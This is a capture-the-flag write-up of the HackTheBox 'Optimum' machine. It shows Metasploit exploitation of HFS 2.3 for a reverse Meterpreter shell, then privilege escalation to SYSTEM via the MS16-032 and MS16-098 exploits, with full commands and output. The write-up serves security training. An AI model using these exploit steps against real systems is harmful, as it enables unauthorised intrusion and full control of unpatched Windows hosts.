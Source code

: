 ```yaml
---
layout: post
title: HackTheBox | Optimum
date: 2018-07-02 19:00:00 -0400
categories: hackthebox
image:
  feature: assets/img/192032c15b8c0b165d309ec5bd73484c.jpg
  credit: 
  creditlink: 
---
```


This post describes multiple attacks upon the Optimum box on [hackthebox.eu](http://hackthebox.eu).  

Introduction
==========
This is a particularly interesting box.  Getting a shell is easy, perhaps one of the easiest on the site, but escalating evades a number of people, despite, in theory, also being very easy.  Originally, I cracked this box in a non-intended manner, so there are multiple ways of achieving the same result.  What you should take away from this box is that the details are important and you can't let exploit kits do all the heavy lifting for you.  With that out of the way, lets get onto the exploitation.
	

Enumeration
=====
```bash
PORT   STATE SERVICE    VERSION
80/tcp open  tcpwrapped
|_http-server-header: HFS 2.3
|_http-title: HFS /
```

So this gives us one service, a HFS file server.  A quick search reveals that this version, v2.3, is in fact vulnerable to [remote code execution](https://www.exploit-db.com/exploits/39161/).  That's pretty handy, so we can likely get a shell very quickly.  A further search reveals that this version also has a [metasploit module](https://www.rapid7.com/db/modules/exploit/windows/http/rejetto_hfs_exec) for it, so we can get a meterpreter shell even easier, and considering it's a windows box, that's a life-saver (I'll kick the habit some day I swear!!).  So let's run the module and have a look around.

```bash
msf exploit(rejetto_hfs_exec) > show options

Module options (exploit/windows/http/rejetto_hfs_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   HTTPDELAY  10               no        Seconds to wait before terminating web server
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST                       yes       The target address
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The path of the web application
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```
There doesn't appear to be much we need to set here bar the RHOST.  We're assuming from nmap that the TARGETURI is simply /, and it doesn't take more than a quick run to confirm this.

```bash
msf exploit(rejetto_hfs_exec) > set RHOST 10.10.10.8
RHOST => 10.10.10.8

msf exploit(rejetto_hfs_exec) > exploit

[*] Started reverse TCP handler on 10.10.13.202:4444 
[*] Using URL: http://0.0.0.0:8080/HathpeeW54bHa75
[*] Local IP: http://192.168.117.130:8080/HathpeeW54bHa75
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /HathpeeW54bHa75
[*] Sending stage (957487 bytes) to 10.10.10.8
[*] Meterpreter session 1 opened (10.10.13.202:4444 -> 10.10.10.8:49189) at 2017-05-18 18:02:39 +0100
```

Boom we have a shell!  Now lets escalate!

Privilege Escalation - Method 1
=======
I spent a lot of time rooting (hehehehe) around on this box, but came to the conclusion that it absolutely had to be vulnerable to [MS16-032](https://www.rapid7.com/db/modules/exploit/windows/local/ms16_032_secondary_logon_handle_privesc), but couldn't for the life of me get it to work.  The device wasn't patched recently, and the exploit was famous for being fairly consistently, so in my head it had to work.  I tried the [powershell exploit](https://www.exploit-db.com/exploits/39719/) and the [metasploit one](https://www.rapid7.com/db/modules/exploit/windows/local/ms16_032_secondary_logon_handle_privesc), but nothing gave me a shell.  Hindsight is 20/20, and while I initially exploited it via the second, it's a good idea to see how both methods work.

Exploiting the metasploit module requires a number of different options set.  Firstly, we need to ensure we have a 64 bit meterpreter.  We can just set this before we run the rejetto hfs exploit to give us a shell.

```
msf exploit(rejetto_hfs_exec) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
```
So now we absolutely have an x64 based shell, after some enumeration using systeminfo and `post/multi/recon/local_exploit_suggester`, we discover that the machine is vulnerable to [MS16-032](https://www.rapid7.com/db/modules/exploit/windows/local/ms16_032_secondary_logon_handle_privesc).  So lets background the shell and load up this module.

```
meterpreter > background 
[*] Backgrounding session 2...
msf exploit(rejetto_hfs_exec) > use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
msf exploit(ms16_032_secondary_logon_handle_privesc) > show options

Module options (exploit/windows/local/ms16_032_secondary_logon_handle_privesc):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.


Exploit target:

   Id  Name
   --  ----
   0   Windows x86


msf exploit(ms16_032_secondary_logon_handle_privesc) > set SESSION 2
SESSION => 2
msf exploit(ms16_032_secondary_logon_handle_privesc) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Windows x86
   1   Windows x64
```

From this, we see that the machine has two targets, one for x86 and one for x64.  Since, obviously, we're targeting an x64 based machine we need to select the correct target.

```bash
msf exploit(ms16_032_secondary_logon_handle_privesc) > set target 1
target => 1
```

So now we just run the exploit the exploit and we'll pop a system shell.

Privilege Escalation - Method 2
=====
An absolutely fantastic tool is windows-exploit-suggester.  It takes the list of patches output by systeminfo, and compares this to a database of microsoft patches, attempting to supply a list of exploits to target the machine.  This is an inefficient method, but at the time whilst desperately searching for an exploit, it gave me a way of more effectively targeting my search.  

Run `systeminfo` in a shell on the remote pc, and save it in a file called 'systeminfo.txt' on your local machine.

```bash
root@kali:~/Windows-Exploit-Suggester-master# python windows-exploit-suggester.py --database 2017-05-25-mssb.xls --systeminfo systeminfo.txt 
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (ascii)
[*] querying database file for potential vulnerabilities
[*] comparing the 32 hotfix(es) against the 266 potential bulletins(s) with a database of 137 known exploits
[*] there are now 246 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2012 R2 64-bit'
[*] 
[E] MS16-135: Security Update for Windows Kernel-Mode Drivers (3199135) - Important
[*]   https://www.exploit-db.com/exploits/40745/ -- Microsoft Windows Kernel - win32k Denial of Service (MS16-135)
[*]   https://www.exploit-db.com/exploits/41015/ -- Microsoft Windows Kernel - 'win32k.sys' 'NtSetWindowLongPtr' Privilege Escalation (MS16-135) (2)
[*]   https://github.com/tinysec/public/tree/master/CVE-2016-7255
[*] 
[E] MS16-098: Security Update for Windows Kernel-Mode Drivers (3178466) - Important
[*]   https://www.exploit-db.com/exploits/41020/ -- Microsoft Windows 8.1 (x64) - RGNOBJ Integer Overflow (MS16-098)
[E] MS13-101: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (2880430) - Important
[M] MS13-090: Cumulative Security Update of ActiveX Kill Bits (2900986) - Critical
-- SNIP---
[*] done
```

The method I used here probably isn't as applicable to real-world as I'd want, considering a couple of these crashed Optimum but gave me no shell.  But luckily, very shortly down the list, is MS16-098, which gave me a shell, and them promptly crashed the box once I exited.  So nowhere near as stable as MS16-032 but another entry point into the box.

Exploiting this was simply a matter of downloading the executable from the remote site (we probably should compile it ourselves in future), using meterpreter to upload and then running the executable.

```bash
C:\Users\kostas\Desktop>41020.exe
41020.exe
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>whoami
whoami
nt authority\system
```
